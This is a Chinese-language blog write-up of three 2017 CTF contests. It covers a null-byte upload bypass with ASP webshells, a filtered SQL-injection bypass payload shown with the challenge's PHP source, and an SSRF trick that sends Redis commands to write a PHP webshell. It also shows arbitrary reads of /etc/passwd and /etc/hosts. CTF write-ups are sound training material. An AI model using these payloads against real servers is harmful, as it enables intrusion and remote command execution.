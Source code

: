 ```yaml
---
layout: post
title: CCTF_DCTF_XDCTF的收获
date: 2017-10-02
categories: Write_Up
---
```


### CCTF

嘛，CCTF线上已经忘记了，当时的Writeup也忘记保存了。只记得做了几个Web，然后逆向什么的队友带飞（感谢哒哒哒哒哒以及二进制大佬）。

线下怎么说呢，第一次参加渗透版线下，主办方给了三个不同的ip，每个ip下有三层网络。Emmm...我觉得对于我们这种弱鸡一层就够了。ip1没有web服务器，只有一个22端口和一个奇怪的端口。队友说奇怪的端口是一个什么服务（忘记了），进了1的内网可以直接访问进1。ip2是一个web服务器，应该是一个商城，没记错的话。各种找漏洞利用点。robots写着站长英语不好，所以没有写。后来脑洞大开，想后台地址会不会是houtai之内的中文后台名，结果还真猜对了。后来发现后台有个越权，可以不登陆直接修改礼物信息，addlipin.asp。这里面可以直接上传图片等。于是乎%00绕过，%00记得使用的URL编码。成功上传一个asp小马，然后小马上传大马。大马搜索关键字有flag的文件。成功找到2个flag。可是还有个数据库里的flag，400分。没拿到。这道题很奇怪，各种提权都失败。cmd.exe传了也没用。控制命令几乎一个没有。结果我队一直认为必须想办法提权，或者自己加入cmd的命令写注册表开启3389。然后找到flag（asp编码能力太差）并进入ip1且可以进入下层网络。

emmm...结果就是，卡住太久，导致ip3没有做完，ip3只找到一个flag，卡在后台登录界面，后台登录赛后听说有注入，不过自己试的时候完全没发现啊。于是大佬们注入的注入，爆破密码的爆破密码，唯独我拿了个国外字典跑了半天没跑出来放弃了。赛后听说密码是admin123，心里很崩溃，因为自己试了adminadmin\admin123456\admin1234等，就是没尝试admin123。。。不然又能拿到flag。还能往ip1或者下层网络继续渗透。。。

所以，因为死磕ip2的提权太久，从第6降到了第12，成功拿到线上三等奖（摊手）。对了，还有个比赛时的趣事，好像因为ip3的界面留下了一个版权信息，于是我加了版权信息留下的qq，以为是主办方的人，让我们社工一波。跑过去社工一下，发现根本不是！而是真的cms的厂商。。。尴尬，和人尬聊。

总结：字典要强大，不要死磕（虽然死磕是个好习惯）。工具、字典什么的都要提前准备好。还是要多打多做积累经验才是王道。

### DCTF

嘛，被虐的体无完肤。junior的题凭什么最多才5point，一般都1、2point。还特么很难。web1是一个SQL注入，源代码泄露。拿到源代码。

	<?php

	$db  = mysqli_connect('localhost','root','root','test');
	
	$id  = @$_GET['id'];
	$key = $db->real_escape_string(@$_GET['key']);
	//$key = @$_GET['key'];
	
	if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
	    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected
	
	$query = "SELECT `id`,`name`,`key` FROM `user` WHERE `id` = $id AND `key` = '".$key."' ";
	echo $query;
	$q = $db->query($query);
	
	if($q->num_rows) {
	    echo '<h3>Users:</h3><ul>';
	    while($row = $q->fetch_array()) {
	        echo '<li>'.$row['name'].'</li>';
	    }
	
	    echo '</ul>';
	} else {
	    die('<h3>Nop.</h3>');
	}
	
源代码如上。id正则过滤很多，看着头大。key没有正则过滤但是有一个real_escape_string()。开始以为必须要绕过key，于是各种尝试宽字节无果，然后想办法设置编码为有问题的编码无果。毕竟sql语句拼接就这样，没地方可拼。后来实在没有办法，id的正则丢进正则测试工具，所有符号打一遍，留下没被过滤的符号看看。emmm....事后发现的关键有`;``0``<``>``%`。

当时想到`id=0;`截断语句，然后插入新的语句再注释掉后面的。无果。后来发现`id=0<>true;%00`;与%00缺一不可。没有`;`会造成语句没有结束继续等待的sql语法错误，没有`%00`后面的语句会被执行造成sql语法错误。

web2首先被导向有一个flag.php，很明显要得到它，直接到index.php看看是什么，发现是一个httpbin web应用。

![1](/images/posts/dctf/1.png)

可以选择POST、GET请求，URL进行了过滤，不允许localhost、127.0.0.1等域名。Data反而似乎没什么限制。这个会以你选择的请求方式请求一次你输入的URL，并将简单的HTTP报文返回。开始以为能导致命令执行，尝试多次，无果。返回URL错误。后来大佬表示这是一个CSRF、MD5碰撞。这道题有两个思路，CSRF是通过请求http://foo@127.0.0.1@foo/，欺骗DNS绕过URL的检测。然后在端口6379上发现返回。猜测是redis的默认端口。于是改为POST请求发送Data。Data中写redis的命令，往服务器写入shell.php。

	CONFIG set dir /var/www/sandbox
	CONFIG set dbfilename shell.php
	SET a '<?=`$_GET[1]`?>'
	SAVE

POST上去后，服务器返回如下：

	-ERR unknown command 'POST'
	-ERR unknown command 'Host:'
	-ERR unknown command 'Authorization:'
	-ERR unknown command 'Accept:'
	-ERR unknown command 'Content-Length:'
	-ERR unknown command 'Content-Type:'
	+OK
	+OK
	+OK

于是访问shell.php即可拿到flag.php

### XDCTF

嘛，web3的index.php会通过参数file打开index.html和flag.html。flag.html只有你什么都找不到这样的信息，然后目录扫描什么的又得不到信息。不过惊喜的是file可以得到index.php自己，在注释里看到了所有的源代码。于是尝试文件任意读取，可是居然找不到flag.php？？？？？喵喵喵？？？好吧，找到一个.DS_Store。可能flag的名字就在里面吧，于是下载下来解开查看目录，空的？？？喵喵喵？？？没办法，只有查看敏感文件如/etc/passwd，没有有用的信息，/etc/hosts。在hosts找到了这些。

	127.0.0.1 localhost
	::1 localhost ip6-localhost ip6-loopback
	fe00::0 ip6-localnet
	ff00::0 ip6-mcastprefix
	ff02::1 ip6-allnodes
	ff02::2 ip6-allrouters
	172.18.0.3 ecba35241264
	
猜测是扫描C段找到172.18.0.3，然后就可以拿到权限或者找到flag。然而服务器日常宕机。扫描不出来。。。卡死在这一步。

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [CCTF_DCTF_XDCTF的收获](http://RoyTse.github.io/2017/10/CCTF_DCTF_XDCTF的收获/)  